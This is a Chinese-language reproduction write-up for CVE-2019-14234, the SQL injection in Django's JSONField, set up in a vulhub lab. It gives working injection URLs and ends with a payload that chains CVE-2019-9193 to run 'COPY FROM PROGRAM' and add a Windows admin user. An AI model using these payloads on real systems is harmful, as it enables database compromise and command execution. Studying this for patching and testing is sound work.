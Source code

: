 （CVE-2019-14234）Django JSONField sql注入漏洞
==============================================

一、漏洞简介
------------

该漏洞需要开发者使用了JSONField/HStoreField，且用户可控queryset查询时的键名，在键名的位置注入SQL语句。

Django通常搭配postgresql数据库，而JSONField是该数据库的一种数据类型。该漏洞的出现的原因在于Django中JSONField类的实现，Django的model最本质的作用是生成SQL语句，而在Django通过JSONField生成sql语句时，是通过简单的字符串拼接。

通过JSONField类获得KeyTransform类并生成sql语句的位置。

其中key\_name是可控的字符串，最终生成的语句是WHERE
(field-\>\'\[key\_name\]\') = \'value\'，因此可以进行SQL注入。

二、漏洞影响
------------

1.11.x before 1.11.23

2.1.x before 2.1.11

2.2.x before 2.2.4

三、复现过程
------------

### 环境搭建

    git clone https://github.com/vulhub/vulhub.git
    cd vulhub/django/CVE-2019-14234/
    docker-compose up -d

### 漏洞利用

#### 1、登录后台

http://ip:8000/admin/vuln/collection/

#### 2、构造URL进行查询

http://ip:8000/admin/vuln/collection/?detail\_\_a%27b=123

![](./.resource/(CVE-2019-14234)DjangoJSONFieldsql注入漏洞/media/rId28.png)

可以看到已经注入成功，并且可以看到构造的SQL语句

为进一步验证注入语句，我们继续构造

    http://ip:8000/admin/vuln/collection/?detail__title')='1' or 1=1--

后台生成的sql语句的关键部分是

    WHERE ("vuln_collection"."detail" -> 'title')='1' or 1=1-- ') = %s

由于or 1=1永为真，因此应该返回所有结果，页面返回结果符合预期，如下图

image

下一步结合CVE-2019-9193我们尝试进行命令注入，构造url如下

    http://ip:8000/admin/vuln/collection/?detail__title')%3d'1' or 1%3d1 %3bcreate table cmd_exec(cmd_output text)--%20

页面结果虽然报错，但是报错原因是no results to
fetch，说明我们的语句已经执行

![](./.resource/(CVE-2019-14234)DjangoJSONFieldsql注入漏洞/media/rId29.png)

最终payload

    http://ip:8000/admin/vuln/collection/?detail__title')%3d'1' or 1%3d1 %3bcopy cmd_exec FROM PROGRAM 'net user admin admin /add'--%20
